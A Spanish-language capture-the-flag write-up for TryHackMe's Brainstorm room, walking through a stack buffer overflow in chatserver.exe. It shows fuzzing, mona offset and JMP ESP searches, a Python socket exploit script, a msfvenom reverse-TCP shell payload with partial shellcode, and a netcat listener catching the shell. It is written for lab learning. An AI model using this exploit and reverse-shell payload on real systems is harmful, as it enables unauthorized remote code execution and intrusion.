# **Explotación, Desbordamiento de Buffer**

En el CTF Brainstorm de Tryhackme, despues de conseguir acceso a la maquina, encuentro el archivo chatserver.exe. Este archivo se ejecuta en el servidor y lo explotare creando un desbordamiento de buffer para tener acceso al servidor.

Necesitare la herramienta Inmunitty Debugger, el script Mona y crear algún script para crear un desbordamiento de memoria.

1 - Abrir en chatserver.exe

[figure not shown]

**2 - Enviar caracteres a la aplicación hasta crear el desbordamiento**

```
python -c 'print "A" * 2500'

nc -nv 192.168.0.10 9999
(UNKNOWN) [192.168.0.16] 9999 (?) open
Welcome to Brainstorm chat (beta)
Please enter your username (max 20 characters): AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Write a message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
<SNIP>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- EIP Se sobreescribe con 41414141, que es AAAA.
- Envio patron creado de 2500 de la misma forma que antes.

```
!mona pattern_create 2500
```

Ahora el valorde EIP es 31704330

```
!mona pattern_offset 31704330
```

- Creo el script

[Esqueleto](https://github.com/gh0x0st/Buffer_Overflow)

```
#!/usr/bin/python

import socket,sys

address = '127.0.0.1'
port = 9999
buffer = #TBD

try:
    print '[+] Sending buffer'
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((address,port))
    s.recv(1024)
    s.send(buffer + '\r\n')
except:
    print '[!] Unable to connect to the application.'
    sys.exit(0)
finally:
    s.close()
```

- Y asi queda de momento

```
#!/usr/bin/python

import socket,sys

address = '192.168.0.10'
port = 9999
user = 'iduque'
message = 'A' * 2012

try:
        print '[+] Sending buffer'
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((address,port))
        s.recv(1024)
        s.recv(1024)
        s.send(user + '\r\n')
        s.recv(1024)
        s.send(message + '\r\n')
except:
        print '[!] Unable to connect to the application.'
        sys.exit(0)
finally:
        s.close()
```

- Ejecutar script desde Kali

```
python buffer.py
```

- La app falla y tenemos el control

**Ahora podemos insertar codigo en EIP para obtener un shell**

- Añado al script estas lineas para buscar badchars y eliminarlos.

[output not shown]

- Y no hay badchars a parte de x00, que siempre es un caracter malo, los demas aparecen todos al ejecutar el script.



- Encontrar ESP, lo usare para apuntar a la carga útil.

  ```
  mona jmp -r esp
  ```



- Creación de la carga útil

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.15 LPORT=1234 EXITFUNC=thread -f py -e x86/shikata_ga_nai -b "\x00"
```

Shikata para obfuscar la carga útil, -b "x00" para eliminar el caracter malo.

Esta es la carga útil

```
buf =  b""
buf += b"\xba\x40\xfd\xb6\x4c\xd9\xe9\xd9\x74\x24\xf4\x58\x31"
buf += b"\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x10\xf3\x54"
buf += b"\xb9\x6c\xe3\x1b\x42\x8c\xf4\x7b\xca\x69\xc5\xbb\xa8"
<SNIP>:
```

- Completar el script

```
address = '192.168.0.10'
port = 9999
user = 'iduque'
buf =  b""
buf += b"\xba\x40\xfd\xb6\x4c\xd9\xe9\xd9\x74\x24\xf4\x58\x31"
<SNIP>
buf += b"\x43\x68\x9f\xb2\x0e\x8b\x4a\xf0\x36\x08\x7e\x89\xcc"
buf += b"\x10\x0b\x8c\x89\x96\xe0\xfc\x82\x72\x06\x52\xa2\x56"
esp = '\xdf\x14\x50\x62'
nop = '\x90'*20

message = 'A' * 2012
message += esp
message += nop
message += buf
```

- Ahora netcat para recibir la conexión en Kali.

```
nc -nlvp 1234
```

- Ejecutar chatserver.exe, y ya tengo el shell en la maquina kali.